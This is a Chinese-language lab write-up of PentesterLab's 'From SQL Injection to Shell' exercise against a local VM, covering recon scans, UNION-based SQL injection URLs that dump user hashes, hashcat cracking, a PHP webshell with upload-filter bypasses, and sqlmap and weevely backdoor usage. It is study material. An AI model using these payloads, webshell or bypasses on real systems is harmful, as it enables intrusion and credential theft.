# chap0x07 从SQL注入到Shell


## 信息收集

### nmap主动扫描

- `nmap -A -n -T4 192.168.56.*`获取192.168.56.0/24这个网段下,所有主机的操作系统及版本信息,端口开放信息<br>

### netdiscover被动获取信息
- `netdiscover -r 192.168.56.0/24 -p`,使用netdiscover被动获取,该网关下存在的主机的信息,执行命令后,并不会立马获取到信息,因为是被动获取,而此时该网段可能还不存在arp数据包的发送.当新的主机访问网站的时候,可以看到攻击者的终端获取到一个主机的信息,因为此时捕获到一个ARP包.然而有时候并不能获取到该网关下的全部信息/想要的信息,可能被动收集信息有利有弊吧<br>

### 通过telnet连接获取目标服务器的相关信息
- `telnet 192.168.56.101 80`,然后发送请求
    ```
    GET / HTTP/1.1
    Host: 192.168.56.101
    ```
    ,得到如下信息<br>

### 通过nc连接22端口获取目标服务器相关信息
- `nc 192.168.56.101 22`

### 人工在页面收集信息
#### 1. 收集服务器信息

- 后端使用语言较大可能包含php<br>
- 后端服务器较大可能使用apache/2.2.16搭建服务器,debian系统<br>

#### 2. 收集可见链接
- 
- 
- 为了防止遗漏,使用wfuzz字典爆破来进行路径收集

### 使用wfuzz爆破路径收集信息
- `wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt --hc 404 http://192.168.56.101/FUZZ`

    ```
    -z file,/usr/share/wfuzz/wordlist/general/big.txt 告诉wfuzz使用指定字典文件
    -c 输出高亮
    --hc 404 忽略404响应
    http://192.168.56.101/FUZZ` 告诉wfuzz,将FUZZ替换成字典中每一个单词
    ```
- 


## SQL注入

### 数据库信息收集

- 之前收集到的信息中,有可到达链接`http://192.168.56.101/cat.php?id=1`,在地址栏输入<br>`http://192.168.56.101/cat.php?id=1' --`,<br>返回页面报错,地址栏输入`http://192.168.56.101/cat.php?id=1' and '1' = '1`,页面报错

- 可以判断这里的id类型不是字符串型,同时在返回页面中下方,有如下红框中的字样,可以判断,后端数据库很有可能是mysql<br><br>

- 输入`http://192.168.56.101/cat.php?id=2-1`返回正常页面如下,没有报错,说明id类型为整性<br>

#### 利用order by猜测表的列数
- 二分判断列数,在地址输入`http://192.168.56.101/cat.php?id=1 order by 1`,页面正常,输入`http://192.168.56.101/cat.php?id=1 order by 10`,页面报错,`http://192.168.56.101/cat.php?id=1 order by 5`,页面报错,`http://192.168.56.101/cat.php?id=1 order by 3`,页面正常,`http://192.168.56.101/cat.php?id=1 order by 4`,页面正常,可以基本判断该数据表有4列(其实这里从1向上枚举就可以了,个人感觉表的列数不会太多,二分的初始上界我就凭经验猜了)<br>

#### 利用union获取表信息
- 同样可以用union来获得表的列数,基本用法`union select 1,2,3...` 或者 `union select null,null,...`,生成一行临时数据,数据列数可以自己决定,并与原来数据库的查询结果合并,如果两个数据的列数不同,则会报错.通过这个方法可以判断列数为4<br>

- 观察页面下方与原来查询结果合并的数据和页面代码,可以猜测,查询结果的第二列为图片名称,第三列为图片地址<br><br>

- 进一步获取数据库信息

- `http://192.168.56.101/cat.php?id=1 union select 1,@@version,3,4`,获取数据库版本信息<br>

- `http://192.168.56.101/cat.php?id=1%20union%20select%201,concat(@@version_compile_os,',',@@version,',',current_usr(),',',system_usr(),',',database()),3,4`,获取更多信息<br>

- `http://192.168.56.101/cat.php?id=1 union select 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`获取当前数据库的表名，以及每个表的列名,可以发现诸如password等敏感信息<br>

- `http://192.168.56.101/cat.php?id=1 union select 1,concat(id,',', login,',',password),3,4 FROM users`可以获取users表中的所有信息<br>


### 漏洞利用sql注入得到的信息登录admin用户

- 信息收集中,我们可以得到用户名,和对应的password字段,猜测是密码的md5值,利用hashcat对md5进行解密,可以得到用户admin的密码,P4ssw0rd<br>

    ```
    hashcat -a 0 -m 0 8efe310f9ab3efeae8d410a8e0166eb2 /usr/share/wordlists/rockyou.txt --force
    ```

- 登录用户,可以执行删除图片,上传图片等操作<br><br>


### webshell

- 先构造webshell文件pic.php,代码如下
    ```php
    <?php
    system($_GET['cmd']);
    ?>  
    ```
- 结果如下,猜测是进行了文件后缀名过滤<br>

- 尝试更改文件名为**pic.php3**或者**pic.php.test**,可以上传


- `.php3`饶过简单的文件类型检测，并执行代码，在`php5.conf`的服务配置中,允许了将ph(p3?|tml)类型的文件当成php代码进行解释执行<br>

- `.php.test`饶过文件类型的过滤.
>Apache 对文件解析是从右到左开始判断解析。如果文件的扩展名没有配置默认的处理程序，就再往左判断解析。 如 vul.php.owf.rar，由于Apache无法解析 rar 和 owf 扩展名，但能够解析 php 扩展名，因此 Apache 会将 vul.php.owf.rar 当做 PHP 代码进行解析并执行。

- 根据之前收集到的信息,可以猜测刚才上传的文件是在`http://192.168.56.101/admin/uploads/`文件夹下的,尝试访问刚才上传的两个文件并传入cmd参数`ls -l`,成功执行<br><br>

- 尝试`cat /etc/passwd`,获取该系统的所有用户基本信息<br>

- `uname -a`,获取系统信息<br>

---

- 以上基本完成了[From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/cours)中的内容

---

## 其他内容

### 学习sqlmap的基本用法

- `sqlmap -u "http://192.168.56.101/cat.php?id=1" `判断是否存在注入点,以及获取数据库的一些基本信息(如果存在注入点)<br>

- `sqlmap -u "http://192.168.56.101/cat.php?id=1" --dbs`查看可以访问的数据库<br>

- `sqlmap -u "http://192.168.56.101/cat.php?id=1" --current-db`,查看当前请求所访问/使用的数据库<br>

- `sqlmap -u "http://192.168.56.101/cat.php?id=1" --table -D "photoblog"`<br>`sqlmap -u "http://192.168.56.101/cat.php?id=1" --table -D "information_schema"`,<br>列出指定数据库所有数据表
    ```
    --table 获取数据库表
    -D 指定数据库
    ```

- <br><br>

- `sqlmap -u "http://192.168.56.101/cat.php?id=1" --columns -T "users" -D "photoblog"`,获取给定数据库给定表中的列名和类型<br>

- `sqlmap -u "http://192.168.56.101/cat.php?id=1" --dump -C "id,login,password" -T "users" -D "photoblog"`读取指定数据库指定表中的指定字段内容<br>

- `sqlmap -u "http://192.168.56.101/cat.php?id=1" -- privileges`,测试所有用户的权限<br>

- `sqlmap -u "http://192.168.56.101/cat.php?id=1" --sql-shell`,使用shell,和mysql进行交互<br>


- 由于提权失败,无法执行系统命令,如果是root权限,可以使用`sqlmap -u "http://192.168.56.101/cat.php?id=1" --os-cmd=`命令执行系统命令.

---

### weevely初体验

- `weevely generate123465 ~/Desktop/bd.php.test`,使用weevely生成后门文件,密码问"123456"(连接时用),并将后门文件上传<br><br>
- `weevely http://192.168.56.101/admin/uploads/bd.php.test 123456`,通过刚才上传的后台文件,进行远程连接<br>
- `:audit_etcpasswd`,查看/etc/passwd下的信息<br>
- `file_read ./pic.php3`,读取文件,<br>
- 同样,因为权限问题,无法进行一些需要更高的操作,暂时还没研究懂如何提权


